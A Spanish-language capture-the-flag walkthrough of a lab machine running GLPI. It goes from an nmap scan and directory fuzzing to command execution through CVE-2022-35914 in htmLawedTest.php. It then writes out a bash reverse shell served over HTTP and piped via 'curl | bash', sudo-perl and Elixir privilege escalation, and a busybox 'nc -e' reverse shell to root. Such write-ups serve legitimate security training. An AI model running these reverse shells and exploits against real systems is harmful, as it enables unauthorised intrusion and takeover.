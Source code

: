 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.

```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 192.168.80.133 -oN escaneo
```

![[Pasted image 20240429095853.png]]

Pondremos la ip en el navegador para ver que nos esconde.
![[Pasted image 20240429112201.png]]

Vemos que nos da la pagina por defecto de apache. Para averiguar si hay directorios o archivos ocultos vamos a realizar un fuzzing de la web.

```
dirsearch -u http://192.168.80.133
```

![[Pasted image 20240429113636.png]]

Vemos que tiene un robots.txt, así que vamos a ver que contiene.
![[Pasted image 20240429113711.png]]

Vemos que tiene una web, asi que vamos a ver que contiene.
![[Pasted image 20240429113831.png]]

Vemos que nos está diciendo la versión de la plataforma, asi que podemos buscar un exploit para ello. 

```
CVE-2022-35914

https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/
```


En esta web, nos dice que hay una archivo que permite introducir comandshell. Este archivo es /htmLawedTest.php

![[Pasted image 20240429120546.png]]

Una vez estamos en ella, pondremos el siguiente comando para ver si podemos ejecutar comandos del servidor.

```
id
```

Tendremos que modificar en el apartado strings el input de hook y escribir exec y darle al enter.
![[Pasted image 20240429120947.png]]
![[Pasted image 20240429121009.png]]

Vemos que podemos escribir comandos del servidor. Entonces vamos a intentar lanzar una revershell. Crearemos un index.hml con lo siguiente.

```
 # !/bin/bash
 sh -i >& /dev/tcp/192.168.80.129/4444 0>&1
```

Seguidamente colgaremos el archivo en un servidor python.

```
python3 -m http.server 80
```

![[Pasted image 20240429130458.png]]

Nos pondremos a la escucha con netcat en el puerto que hemos eleguido.

```
nc -lnvp 4444
```

![[Pasted image 20240429130714.png]]

Finalmente en la web, ejecutaremos la reverse shell.

```
curl 192.168.80.129/index.html | bash
```

![[Pasted image 20240429130937.png]]
![[Pasted image 20240429140733.png]]

Para poder mostrar un prompt escribiremos lo siguinte en la shell del servidor.

```
script /dev/null -c bash
```

![[Pasted image 20240429140854.png]]

Una vez obtenemos la shell escalaremos privilegios. Para ello miraremos los binarios que tenemos privilegios.

```
sudo -l
```

![[Pasted image 20240429141009.png]]

Vemos que tenemos el binario en posesion del usuario noname. Así que vamos a explotarlo para ganarnos ese usuario.

```
sudo -u noname /usr/bin/perl -e 'exec "/bin/sh";'
```

![[Pasted image 20240429141249.png]]

Una vez tenemos el control de este usuario, vamo a ver que esconde en la carpeta de este.

![[Pasted image 20240429141409.png]]

Hemos podido ver que contiene la flag de usuario. Ahora vamos a escalar a root. Para ello vamos a volver a mirar los binarios.
![[Pasted image 20240429141541.png]]

Vemos que tiene el binario iex en posesion de root. Lo vamo a ejecutar a ver que pasa.

```
sudo /usr/bin/bash
```

![[Pasted image 20240429142100.png]]

Vemos que nos abre una consola. Nos lanzaremos una reverse shell para escalar al usuario root.

```
(Víctima)
System.cmd("busybox", ["nc", "192.168.80.129", "2222", "-e", "/bin/bash"], [])
```

```
(Local)
nc -lnvp 2222
```

![[Pasted image 20240429142703.png]]
![[Pasted image 20240429142735.png]]

Solo nos faltará ir a la carpeta root y printar la flag. 
![[Pasted image 20240429142827.png]]
